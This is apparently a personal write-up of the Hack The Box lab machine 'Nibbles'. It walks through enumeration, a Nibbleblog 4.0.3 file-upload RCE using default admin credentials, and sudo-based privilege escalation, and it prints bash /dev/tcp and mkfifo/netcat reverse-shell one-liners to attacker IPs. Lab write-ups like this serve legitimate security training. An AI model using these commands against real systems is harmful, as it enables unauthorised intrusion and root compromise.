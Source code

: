 # Time: 11:55am - 2:10pm

# Given

Nibbles is a fairly simple machine, however with the inclusion of a login blacklist, it is a fair bit more challenging to find valid credentials. Luckily, a username can be enumerated and guessing the correct password does not take long for most.

## IP: 10.10.10.75

# Steps

## Initial Enumeration

- $ nmap -sCV -p- 10.10.10.75 -oN enum/nmap.out
    - 2 open ports tcp 22 (ssh), 80 (http)
    - Server: Apache/2.4.18 (Ubuntu)
    - OS: Linux
- SSH needs creds, so focus on enumerating HTTP server
    - whatweb wasn't much help
    - manual enumeration showed a comment with a link called "/nibbleblog"
- nibbleblog shows a blog site.
    - Source code doesn't have much info either
    - Some links like feed seem to be PHP files
    - directory enumeration with feroxbuster shows more php files
- Nibbleblog version can be found at ip/nibbleblog/README

## Initial Foothold

- Googling for the nibbleblog version gives the cve
- Downloaded python file for the RCE exploit
- Run exploit to get inital foothold
    - `python3 nibbleblog_4.0.3.py -t <http://10.10.10.75/nibbleblog/admin.php> -u admin -p nibbles -shell`
- Run code to initiate reverse shell to attack host
    - `/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.6/4444 0>&1’`

## Local Enumeration

- `sudo -l` works here. A better way would have been using: **`find / -perm -4000 -type f -exec ls -la {} \\; 2>/dev/null`** .
- User Nibbler can run a certain file as root `/user/home/nibbler/personal/stuff/monitor.sh`

## Privilege Escalation

### Quick and Dirty

- Since user can run [`monitor.sh`](http://monitor.sh) as root, we can create a file with the same name and put it in the same folder then run it as root.

```bash
#! /bin/bash

/bin/bash -p
```

- Give it permissions to execute: `chmod +x ./monitor.sh`
- Run the file as sudo `sudo /home/nibbler/personal/stuff/monitor.sh`
- This opens a root shell.

### Cleaner

- There’s a zip file with the [`monitor.sh`](http://monitor.sh) file inside. Add the code to connect to our attacking host in a bash terminal.
- You can have a netcat listener running to catch that ping.

```bash
# Target Machine
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.154 8083 > /tmp/f" >> monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
```

```bash
# Attacking Machine
root@kali# nc -lnvp 8083
listening on [any] 8083 ...
connect to [10.10.15.154] from (UNKNOWN) [10.10.10.75] 52184
# id
uid=0(root) gid=0(root) groups=0(root)
```

- Resource : [https://0xdf.gitlab.io/2018/06/30/htb-nibbles.html#privesc](https://0xdf.gitlab.io/2018/06/30/htb-nibbles.html#privesc)

# Findings

- Most directories are open to view
- Config.xml - [](http://10.10.10.75/nibbleblog/content/private/config.xml)[http://10.10.10.75/nibbleblog/content/private/users.xml](http://10.10.10.75/nibbleblog/content/private/users.xml)
    - Possible username of site admin: admin
- Admin page: ip/nibbleblog/admin.php
- Nibbleblog version is 4.0.3
    - This version is vulnerable to arbitrary file upload CVE-2015-6967
- Inital foothold user is Nibbler

# Creds

- Default web admin creds are `admin:nibbles`

# Proof

![image.png](../../Assets/nibbles1.png)